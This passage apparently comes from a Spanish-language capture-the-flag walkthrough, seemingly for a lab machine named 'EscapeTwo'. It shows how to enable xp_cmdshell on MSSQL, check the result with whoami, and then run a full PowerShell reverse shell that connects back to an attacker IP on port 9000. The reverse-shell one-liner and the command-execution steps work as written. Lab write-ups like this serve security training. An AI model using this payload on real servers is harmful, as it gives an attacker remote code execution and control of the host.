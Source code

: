 ```sql
-- Primero habilitamos las configuraciones avanzadas
sp_configure 'show advanced options', 1;
RECONFIGURE;

-- Luego habilitamos xp_cmdshell
sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Probamos si funciona con un whoami
EXEC xp_cmdshell 'whoami';
```

Ahora que tenemos capacidad para ejecutar comandos del sistema, podemos usar la herramienta de shell reversa de MSSQL para ejecutar comandos en el sistema.

```sql
EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.16.13'',9000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"';
```
> **Nota**: Recuerda habilitar el puerto de escucha en tu máquina linux.
{: .prompt-info }

[![SQL](/assets/img/posts/escapeTwo/sql_sa.png)](/assets/img/posts/escapeTwo/sql_sa.png)

[![SHELL](/assets/img/posts/escapeTwo/shell_sa.png)](/assets/img/posts/escapeTwo/shell_sa.png)

## Explorando el sistema.

Una vez que tenemos acceso a la shell, podemos explorar el sistema y ver si conseguimos alguna información.
